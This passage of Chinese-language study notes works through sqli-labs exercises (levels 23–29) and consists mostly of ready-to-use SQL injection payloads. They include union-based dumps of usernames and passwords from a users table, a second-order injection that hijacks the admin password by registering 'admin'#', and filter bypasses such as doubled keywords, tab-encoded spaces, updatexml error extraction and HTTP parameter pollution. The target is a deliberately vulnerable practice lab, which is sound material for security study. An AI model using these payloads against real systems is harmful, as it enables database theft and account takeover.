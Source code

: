 ```sql
?id=-2' union select 1,(select group_concat(username) from users),(select group_concat(password) from users)'3
前后均闭合即可
```
24二次注入
===
以 **admin'#**为账号注册
登录成功后即可更改密码
```sql
UPDATE users SET passwd="New_Pass" WHERE username ='admin'#'xxxx
```
25or,and过滤
===
```sql
?id=-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata--+
?id=-1' union select 1,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema='security'),3%23
```
26-27奇淫巧计
===
26空格注释被屏蔽
---



```sql
http://192.168.101.16/sqli-labs-master/Less-26/?id=1'aandnd(updatexml(1,concat(0x7e,substr((select (group_concat(schema_name)) from (infoorrmation_schema.schemata)),1,31),0x7e),1))oorr'1'='1
```
27
---
```sql
?id=0'%09uniunionon%09SElect%091,(SELect%0agroup_concat(table_name)%0afrom%09information_schema.tables %09where%09 table_schema='security'),3%09||%09'1'='1
//or '1'='1仅用于闭合
```
28
===
利用id=10000'|| ('1')=('1//一真一假判断出闭合方式</br>
利用union select注入     //注意空格数和空格替换
```sql
?id=0')unionunion%09select%09select%091,(select%09group_concat(table_name) from%09 information_schema.tables%09 where%09table_schema='security'),3||('1')=('1
```
29-31
===
29
---
判断闭合同28
利用 tomcat 与 apache 解析相同请求参数不同的特性</br> 
tomcat 解析相同请求参数取第一个，而 apache 取第二个</br>
如?id=1&id=2 ，tomcat 取得 1 ，apache 取得 2 <br>
联合注入
